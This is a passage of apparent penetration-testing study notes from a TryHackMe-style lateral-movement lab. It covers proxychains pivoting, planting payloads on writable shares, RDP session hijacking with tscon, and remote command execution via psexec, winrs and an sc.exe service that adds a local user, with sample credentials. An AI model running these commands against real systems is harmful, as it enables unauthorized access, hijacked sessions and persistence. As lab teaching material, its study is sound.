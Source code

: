 Any of our typical tools (nmap, etc.) can leverage that SOCKS proxy by using `proxychains`&#x20;

* make sure to configure your `/etc/proxychains.conf` on your system
* e.g. `proxychains curl [<http://pxeboot.za.tryhackme.com`&#x20;

## Abusing User Behavior

### Network Shares

A lot of network shares are writable, so we can plant force users into executing some payloads.

{% hint style="info" %}
If there is a shortcut an executable (so users can execute a script without copying to machine) we can overwrite that script and run whatever we want, when ran the executable gets copied into the `%temp%` directory
{% endhint %}

### Remote Desktop Protocol (RDP) Hijacking

When an administrator uses RDP and closes the client without logging off, the session is still open, an attacker can take over the open session. (Note: **Must have SYSTEM on Windows 2016 or earlier**)

`query user` to find session names and state (`Disc` means left open and not being used. `Active` means someone is currently using it)

`tscon 3 /rdp-tcp#6` to connect using the tscon.exe

* The command states that the graphical session 3 owned by the corresponding user, should be connected with the RDP session rdp-tcp#6, owned by the administrator user

## Spawning Processes Remotely

### psexec

Is a tool used to execute processes remotely allowing an administrator to run commands remotely on any PC where he has access.

`psexec64.exe \MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe`&#x20;

### Windows Remote Management (WinRM)

A web-based protocol used to send Powershell commands to Windows hosts remotely. Enabled by default.

`winrs.exe -u:Administrator -p:Mypass123 -r:target cmd`

### Service Control (sc)

A tool used to manage Windows Services. It can be leveraged to run arbitrary commands since services will execute a command when started. Services are run by `SYSTEM` and allow for persistence.

```sh
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```
